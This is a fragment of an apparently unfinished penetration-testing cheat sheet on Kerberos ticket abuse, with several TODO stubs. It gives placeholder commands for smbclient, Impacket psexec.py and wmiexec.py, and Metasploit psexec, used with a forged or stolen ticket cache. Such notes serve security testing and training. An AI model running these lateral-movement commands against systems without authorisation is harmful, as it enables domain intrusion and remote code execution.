 ### 2.2 - Sliver

TODO: Fill this info

### 2.3 - Covenant

TODO: Fill this info

## 03 - Samba Suite

### 3.1 - SMBClient

TODO: refer to the links using `ktutil`

```
$ smbclient -U "<username>" -N --use-krb5-ccachce=/path/to/ticket.ccache -L //<IP>
```

## 04 - Impacket

- Specify the pass of the golden ticket.

```
$ export KRB5CCNAME=/path/to/file.ccache
```

### 4.1 - SMBClient

`$ smbclient.py -k -no-pass <domain>/<username>@<IP>`

### 4.2 - PsExec

`$ psexec.py -k -no-pass <domain_name>/<username>@<IP>`

### 4.3 - WMIExec

`$ wmiexec.py -k -no-pass <domain_name>/<username>@<IP>`

TODO: Create another section of pass the ticket

```
msf exploit(windows/smb/psexec) > set smb::auth [ntlm]
```

---
## References

- [Malicious.link: Pass The Hash with Kerberos](https://room362.com/posts/2018/pass-the-hash-with-kerberos/)

- [Hackndo: Kerberos Sliver Golden Tickets](https://en.hackndo.com/kerberos-silver-golden-tickets/)

- [Pentestlab Blog: Golden Ticket](https://pentestlab.blog/2018/04/09/golden-ticket/)

- [Hacking Articles: Metasploit For Pentester Mimikatz](https://www.hackingarticles.in/metasploit-for-pentester-mimikatz/)

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)